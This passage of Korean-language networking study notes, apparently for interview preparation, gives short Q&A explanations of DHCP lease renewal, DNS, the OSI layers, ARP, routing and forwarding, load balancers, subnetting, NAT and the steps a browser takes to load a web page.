- 리스 시간의 50% 경과 시
- 갱신 시도 (DHCP Request)
- 서버가 갱신 확인

**2. T2 (87.5% 경과)**
- 리스 시간의 87.5% 경과 시
- 갱신 재시도
- 다른 서버도 가능

**3. 만료 후**
- 리스 시간 만료
- IP 주소 반환
- 새 IP 주소 요청

**결론:**
- **유효기간**: 설정에 따라 다름 (보통 24시간 ~ 8일)
- **갱신**: 50%, 87.5% 시점에 자동 갱신
- **만료**: 만료 시 IP 반환 및 재요청

---

## 📌 DNS

### NET-074
Q. DNS에 대해 설명해 주세요.

**DNS (Domain Name System)**는 도메인 이름을 IP 주소로 변환하는 시스템.

**정의:**
- 도메인 이름과 IP 주소를 매핑하는 분산 데이터베이스
- 사람이 기억하기 쉬운 도메인 이름 사용
- IP 주소를 자동으로 변환

**주요 기능:**
- 도메인 이름 → IP 주소 변환 (정방향 조회)
- IP 주소 → 도메인 이름 변환 (역방향 조회)
- 분산 데이터베이스
- 캐싱으로 성능 향상

**결론:**
- **DNS**: 도메인 이름을 IP 주소로 변환하는 시스템
- **기능**: 정방향/역방향 조회, 분산 데이터베이스

### NET-075
Q. DNS는 몇 계층 프로토콜인가요?

**DNS는 애플리케이션 계층(7계층) 프로토콜이며, UDP 또는 TCP를 사용.**

**계층 구조:**
```
애플리케이션 계층: DNS
전송 계층: UDP (일반) 또는 TCP (대용량)
네트워크 계층: IP
```

**결론:**
- **계층**: 애플리케이션 계층 (7계층)
- **전송**: 주로 UDP, 필요 시 TCP

### NET-076
Q. UDP와 TCP 중 어떤 것을 사용하나요?

**DNS는 주로 UDP를 사용하지만, 대용량 응답이나 존 전송 시 TCP 사용.**

**UDP 사용 (일반):**
- 빠른 응답
- 작은 패킷 크기
- 대부분의 쿼리

**TCP 사용 (특수):**
- 응답 크기 512바이트 초과
- 존 전송 (Zone Transfer)
- 신뢰성 필요 시

**결론:**
- **주로 UDP**: 일반적인 쿼리
- **TCP**: 대용량 응답, 존 전송

### NET-077
Q. DNS Recursive Query, Iterative Query가 무엇인가요?

**Recursive Query(재귀 쿼리)**는 DNS 서버가 최종 답변을 찾아서 반환하고, **Iterative Query(반복 쿼리)**는 DNS 서버가 다음 서버 정보만 반환.

**Recursive Query:**
- 클라이언트 → DNS 서버
- 서버가 최종 답변 찾아서 반환
- 클라이언트는 한 번만 요청

**Iterative Query:**
- DNS 서버 간 통신
- 서버가 다음 서버 정보만 반환
- 클라이언트가 직접 다음 서버에 요청

**결론:**
- **Recursive**: 서버가 최종 답변 반환
- **Iterative**: 서버가 다음 서버 정보만 반환

### NET-078
Q. DNS 쿼리 과정에서 손실이 발생한다면, 어떻게 처리하나요?

**DNS 쿼리 손실 시 재시도, 타임아웃, 대체 DNS 서버 사용 등의 방법으로 처리.**

**처리 방법:**
- 재시도 (Retry)
- 타임아웃 설정
- 대체 DNS 서버 사용
- 캐시 사용

**결론:**
- **재시도**: 손실 시 자동 재시도
- **대체 서버**: 다른 DNS 서버 사용
- **타임아웃**: 일정 시간 후 포기

### NET-079
Q. 캐싱된 DNS 쿼리가 잘못 될 수도 있습니다. 이 경우, 어떻게 에러를 보정할 수 있나요?

**잘못된 DNS 캐시는 TTL 만료, 캐시 플러시, 강제 갱신 등의 방법으로 보정.**

**보정 방법:**
- TTL 만료 대기
- 캐시 플러시 (수동 삭제)
- 강제 갱신
- 다른 DNS 서버 사용

**결론:**
- **TTL 만료**: 자동으로 만료되어 갱신
- **캐시 플러시**: 수동으로 캐시 삭제
- **강제 갱신**: 즉시 새로 조회

### NET-080
Q. DNS 레코드 타입 중 A, CNAME, AAAA의 차이에 대해서 설명해주세요.

**A, CNAME, AAAA는 서로 다른 DNS 레코드 타입.**

**A 레코드:**
- IPv4 주소 매핑
- 도메인 → IPv4 주소
- 예: example.com → 192.0.2.1

**AAAA 레코드:**
- IPv6 주소 매핑
- 도메인 → IPv6 주소
- 예: example.com → 2001:db8::1

**CNAME 레코드:**
- 별칭 (Alias)
- 도메인 → 다른 도메인
- 예: www.example.com → example.com

**결론:**
- **A**: IPv4 주소
- **AAAA**: IPv6 주소
- **CNAME**: 도메인 별칭

### NET-081
Q. hosts 파일은 어떤 역할을 하나요? DNS와 비교하였을 때 어떤 것이 우선순위가 더 높나요?

**hosts 파일은 로컬 도메인-IP 매핑 파일이며, DNS보다 우선순위가 높음.**

**hosts 파일:**
- 로컬 도메인-IP 매핑
- DNS 조회 전에 확인
- 수동 관리

**우선순위:**
1. hosts 파일 (최우선)
2. DNS 조회

**결론:**
- **hosts 파일**: 로컬 도메인-IP 매핑
- **우선순위**: hosts 파일 > DNS

---

## 📌 OSI 7계층

### NET-082
Q. OSI 7계층에 대해 설명해 주세요.

**OSI 7계층 모델은 네트워크 통신을 7개의 계층으로 나눈 참조 모델.**

**7계층:**
1. **물리 계층 (Physical)**: 전기 신호 전송
2. **데이터 링크 계층 (Data Link)**: 프레임 전송, 오류 검출
3. **네트워크 계층 (Network)**: 라우팅, IP 주소
4. **전송 계층 (Transport)**: 신뢰성 보장, TCP/UDP
5. **세션 계층 (Session)**: 세션 관리
6. **표현 계층 (Presentation)**: 데이터 변환, 암호화
7. **애플리케이션 계층 (Application)**: 사용자 서비스, HTTP, DNS

**결론:**
- **OSI 7계층**: 네트워크 통신을 7개 계층으로 구분
- **목적**: 표준화, 계층별 역할 분리

### NET-083
Q. Transport Layer와, Network Layer의 차이에 대해 설명해 주세요.

**Transport Layer(전송 계층)**는 종단 간 신뢰성 보장, **Network Layer(네트워크 계층)**는 패킷 라우팅을 담당.**

**Transport Layer:**
- 종단 간 통신
- 신뢰성 보장 (TCP)
- 포트 번호 사용
- TCP, UDP

**Network Layer:**
- 패킷 라우팅
- IP 주소 사용
- Best-Effort 서비스
- IP, ICMP

**결론:**
- **Transport**: 종단 간 신뢰성, 포트
- **Network**: 라우팅, IP 주소

### NET-084
Q. L3 Switch와 Router의 차이에 대해 설명해 주세요.

**L3 Switch는 하드웨어 기반 스위치에 라우팅 기능 추가, Router는 소프트웨어 기반 라우팅.**

**L3 Switch:**
- 하드웨어 기반 (ASIC)
- 빠른 처리 속도
- 스위칭과 라우팅 결합
- 주로 내부 네트워크

**Router:**
- 소프트웨어 기반
- 복잡한 라우팅 프로토콜
- WAN 연결
- 인터넷 게이트웨이

**결론:**
- **L3 Switch**: 하드웨어 기반, 빠름, 내부 네트워크
- **Router**: 소프트웨어 기반, 복잡한 라우팅, WAN

### NET-085
Q. 각 Layer는 패킷을 어떻게 명칭하나요? 예를 들어, Transport Layer의 경우 Segment라 부릅니다.

**각 계층마다 패킷에 대한 다른 명칭 사용.**

**명칭:**
- **애플리케이션 계층**: Data/Message
- **전송 계층**: Segment (TCP) / Datagram (UDP)
- **네트워크 계층**: Packet
- **데이터 링크 계층**: Frame
- **물리 계층**: Bit

**결론:**
- **Segment**: TCP 전송 계층
- **Datagram**: UDP 전송 계층
- **Packet**: 네트워크 계층
- **Frame**: 데이터 링크 계층

### NET-086
Q. 각각의 Header의 Packing Order에 대해 설명해 주세요.

**헤더는 계층 순서대로 캡슐화되어 전송되며, 수신 시 역순으로 디캡슐화.**

**캡슐화 순서 (송신):**
```
애플리케이션 데이터
  ↓
+ TCP 헤더 (Segment)
  ↓
+ IP 헤더 (Packet)
  ↓
+ Ethernet 헤더 (Frame)
  ↓
비트로 전송
```

**디캡슐화 순서 (수신):**
```
비트 수신
  ↓
Ethernet 헤더 제거
  ↓
IP 헤더 제거
  ↓
TCP 헤더 제거
  ↓
애플리케이션 데이터
```

**결론:**
- **캡슐화**: 상위 계층 → 하위 계층 순서로 헤더 추가
- **디캡슐화**: 하위 계층 → 상위 계층 순서로 헤더 제거

### NET-087
Q. ARP에 대해 설명해 주세요.

**ARP (Address Resolution Protocol)**는 IP 주소를 MAC 주소로 변환하는 프로토콜.**

**동작:**
1. IP 주소는 알지만 MAC 주소 모름
2. ARP 요청 브로드캐스트
3. 해당 IP의 장치가 MAC 주소 응답
4. ARP 캐시에 저장
5. MAC 주소로 프레임 전송

**결론:**
- **ARP**: IP 주소 → MAC 주소 변환
- **용도**: 같은 네트워크 내 통신
- **방식**: 브로드캐스트 요청, 유니캐스트 응답

---

## 📌 라우팅 및 포워딩

### NET-088
Q. 라우터 내의 포워딩 과정에 대해 설명해 주세요.

**포워딩(Forwarding)은 패킷을 받아서 목적지로 전달하는 과정.**

**과정:**
1. 패킷 수신
2. 목적지 IP 확인
3. 포워딩 테이블 조회
4. 다음 홉 결정
5. 패킷 전송

**결론:**
- **포워딩**: 패킷을 목적지로 전달
- **과정**: 수신 → 테이블 조회 → 전송

### NET-089
Q. 라우팅과 포워딩의 차이는 무엇인가요?

**라우팅(Routing)**은 경로를 결정하는 과정, **포워딩(Forwarding)**은 패킷을 전달하는 과정.**

**라우팅:**
- 경로 결정
- 라우팅 테이블 생성
- 라우팅 프로토콜 사용
- 제어 평면

**포워딩:**
- 패킷 전달
- 포워딩 테이블 사용
- 실제 패킷 처리
- 데이터 평면

**결론:**
- **라우팅**: 경로 결정 (제어)
- **포워딩**: 패킷 전달 (데이터)

### NET-090
Q. 라우팅 알고리즘에 대해 설명해 주세요.

**라우팅 알고리즘은 최적 경로를 결정하는 알고리즘.**

**유형:**
- **거리 벡터**: 거리 기반 (RIP)
- **링크 상태**: 전체 토폴로지 (OSPF)
- **경로 벡터**: 경로 정보 (BGP)

**결론:**
- **거리 벡터**: 거리 기반 계산
- **링크 상태**: 전체 토폴로지 기반
- **경로 벡터**: 경로 정보 기반

### NET-091
Q. 포워딩 테이블의 구조에 대해 설명해 주세요.

**포워딩 테이블은 목적지 네트워크와 다음 홉 정보를 저장.**

**구조:**
- 목적지 네트워크 (IP 주소/서브넷)
- 다음 홉 (Next Hop)
- 인터페이스
- 메트릭

**결론:**
- **구조**: 목적지, 다음 홉, 인터페이스, 메트릭
- **용도**: 패킷 전달 경로 결정

---

## 📌 로드밸런서

### NET-092
Q. 로드밸런서가 무엇인가요?

**로드밸런서(Load Balancer)**는 여러 서버에 트래픽을 분산하는 장치 또는 소프트웨어.**

**기능:**
- 트래픽 분산
- 서버 부하 분산
- 고가용성 제공
- 헬스 체크

**결론:**
- **로드밸런서**: 트래픽을 여러 서버에 분산
- **목적**: 부하 분산, 고가용성

### NET-093
Q. L4 로드밸런서와, L7 로드밸런서의 차이에 대해 설명해 주세요.

**L4 로드밸런서는 전송 계층(포트) 기반, L7 로드밸런서는 애플리케이션 계층(HTTP) 기반.**

**L4 로드밸런서:**
- 포트 번호 기반
- 빠른 처리
- TCP/UDP 레벨
- 단순한 분산

**L7 로드밸런서:**
- HTTP 내용 기반
- 복잡한 라우팅
- 애플리케이션 레벨
- 콘텐츠 기반 분산

**결론:**
- **L4**: 포트 기반, 빠름, 단순
- **L7**: HTTP 기반, 복잡, 콘텐츠 기반

### NET-094
Q. 로드밸런서 알고리즘에 대해 설명해 주세요.

**로드밸런서 알고리즘은 서버 선택 방법.**

**알고리즘:**
- **Round Robin**: 순차 분산
- **Least Connections**: 연결 수 최소
- **Weighted Round Robin**: 가중치 기반
- **IP Hash**: IP 기반 해시

**결론:**
- **Round Robin**: 순차 분산
- **Least Connections**: 연결 수 기반
- **Weighted**: 가중치 적용

### NET-095
Q. 로드밸런싱 대상이 되는 장치중 일부 장치가 문제가 생겨 접속이 불가능하다고 가정해 봅시다. 이 경우, 로드밸런서가 해당 장비로 요청을 보내지 않도록 하려면 어떻게 해야 할까요?

**헬스 체크(Health Check)를 통해 장애 서버를 감지하고 제외.**

**방법:**
- 주기적 헬스 체크
- 응답 없으면 제외
- 자동 복구 감지
- 수동 제외

**결론:**
- **헬스 체크**: 주기적으로 서버 상태 확인
- **장애 감지**: 응답 없으면 자동 제외
- **복구**: 정상 응답 시 자동 복구

### NET-096
Q. 로드밸런서 장치를 사용하지 않고, DNS를 활용해서 유사하게 로드밸런싱을 하는 방법에 대해 설명해 주세요.

**DNS 라운드 로빈(DNS Round Robin)을 사용하여 여러 IP 주소를 순환 반환.**

**방법:**
- 하나의 도메인에 여러 IP 주소 등록
- DNS가 순환하여 IP 반환
- 클라이언트가 다른 IP로 접속
- 간단한 부하 분산

**제한사항:**
- 세션 지속성 없음
- 서버 장애 감지 어려움
- 캐싱 문제

**결론:**
- **DNS Round Robin**: 여러 IP 순환 반환
- **장점**: 간단, 비용 없음
- **단점**: 세션 지속성, 장애 감지 어려움

---

## 📌 서브넷 및 NAT

### NET-097
Q. 서브넷 마스크와, 게이트웨이에 대해 설명해 주세요.

**서브넷 마스크(Subnet Mask)**는 네트워크와 호스트를 구분, **게이트웨이(Gateway)**는 다른 네트워크로의 출구.**

**서브넷 마스크:**
- IP 주소의 네트워크/호스트 구분
- 예: 255.255.255.0 (/24)
- 네트워크 부분: 1, 호스트 부분: 0

**게이트웨이:**
- 다른 네트워크로의 라우터
- 기본 게이트웨이 (Default Gateway)
- 외부 통신 시 사용

**결론:**
- **서브넷 마스크**: 네트워크/호스트 구분
- **게이트웨이**: 다른 네트워크로의 출구

### NET-098
Q. NAT에 대해 설명해 주세요.

**NAT (Network Address Translation)**는 사설 IP를 공인 IP로 변환하는 기술.**

**기능:**
- 사설 IP → 공인 IP 변환
- 여러 장치가 하나의 공인 IP 공유
- 주소 고갈 완화
- 보안 향상

**유형:**
- **Static NAT**: 1:1 매핑
- **Dynamic NAT**: 동적 매핑
- **PAT (NAPT)**: 포트 기반 변환

**결론:**
- **NAT**: 사설 IP를 공인 IP로 변환
- **목적**: 주소 공유, 보안, 주소 고갈 완화

### NET-099
Q. 서브넷 마스크의 표현 방식에 대해 설명해 주세요.

**서브넷 마스크는 점으로 구분된 10진수 또는 CIDR 표기법으로 표현.**

**표현 방식:**
- **점 표기법**: 255.255.255.0
- **CIDR 표기법**: /24 (네트워크 비트 수)

**예시:**
- 255.255.255.0 = /24
- 255.255.0.0 = /16
- 255.0.0.0 = /8

**결론:**
- **점 표기법**: 255.255.255.0
- **CIDR**: /24
- **의미**: 동일

### NET-100
Q. 그렇다면, 255.0.255.0 같은 꼴의 서브넷 마스크도 가능한가요?

**가능하지만 비표준이며, 실제로는 거의 사용하지 않음.**

**비표준 서브넷:**
- 연속된 1이 아닌 경우
- 예: 255.0.255.0 (비연속)
- 복잡하고 비효율적

**표준 서브넷:**
- 연속된 1 (네트워크 부분)
- 연속된 0 (호스트 부분)
- 예: 255.255.255.0

**결론:**
- **기술적으로 가능**: 하지만 비표준
- **실제 사용**: 거의 없음
- **권장**: 표준 서브넷 사용

---

## 📌 웹 동작 과정

### NET-101
Q. www.github.com을 브라우저에 입력하고 엔터를 쳤을 때, 네트워크 상 어떤 일이 일어나는지 최대한 자세하게 설명해 주세요.

**브라우저에서 URL 입력 시 DNS 조회, TCP 연결, HTTP 요청/응답 과정이 발생.**

**과정:**
1. **DNS 조회**: www.github.com → IP 주소
2. **TCP 연결**: 3-Way Handshake
3. **TLS 핸드셰이크**: HTTPS인 경우
4. **HTTP 요청**: GET 요청 전송
5. **HTTP 응답**: HTML 등 수신
6. **리소스 로드**: CSS, JS, 이미지 등
7. **렌더링**: 브라우저가 페이지 표시

**상세:**
- DNS: 로컬 캐시 → DNS 서버 → IP 주소
- TCP: 포트 443 (HTTPS) 연결
- TLS: 인증서 검증, 키 교환
- HTTP: 요청/응답
- 리소스: 추가 리소스 요청

**결론:**
- **과정**: DNS → TCP → TLS → HTTP → 렌더링
- **세부**: 각 단계별 상세한 프로토콜 동작

### NET-102
Q. DNS 쿼리를 통해 얻어진 IP는 어디를 가리키고 있나요?

**DNS 쿼리로 얻은 IP는 웹 서버(또는 로드밸런서)의 IP 주소.**

**가리키는 대상:**
- 웹 서버
- 로드밸런서 (여러 서버 앞)
- CDN 엣지 서버
- 리버스 프록시

**실제:**
- 직접 서버: 서버의 실제 IP
- 로드밸런서: 로드밸런서 IP (내부 서버로 분산)
- CDN: 가장 가까운 엣지 서버

**결론:**
- **IP 대상**: 웹 서버, 로드밸런서, CDN 등
- **실제**: 서비스 아키텍처에 따라 다름

### NET-103
Q. Web Server와 Web Application Server의 차이에 대해 설명해 주세요.

**Web Server는 정적 파일 제공, Web Application Server는 동적 콘텐츠 생성.**

**Web Server:**
- 정적 파일 (HTML, CSS, JS, 이미지)
- 예: Nginx, Apache
- 빠른 정적 파일 서비스

**Web Application Server:**
- 동적 콘텐츠 생성
- 애플리케이션 로직 실행
- 예: Tomcat, Node.js
- 데이터베이스 연동

**결론:**
- **Web Server**: 정적 파일 제공
- **WAS**: 동적 콘텐츠 생성
- **사용**: 함께 사용 (Web Server → WAS)

### NET-104
Q. URL, URI, URN은 어떤 차이가 있나요?

**URI는 식별자, URL은 위치, URN은 이름.**

**URI (Uniform Resource Identifier):**
- 리소스를 식별하는 문자열
- URL과 URN을 포함하는 상위 개념

**URL (Uniform Resource Locator):**
- 리소스의 위치 (위치 기반)
- 예: https://example.com/page

**URN (Uniform Resource Name):**
- 리소스의 이름 (이름 기반)
- 예: urn:isbn:0451450523

**관계:**
```
URI
├── URL (위치)
└── URN (이름)
```

**결론:**
- **URI**: 식별자 (상위 개념)
- **URL**: 위치 기반 식별자
- **URN**: 이름 기반 식별자
- **관계**: URI ⊃ URL, URN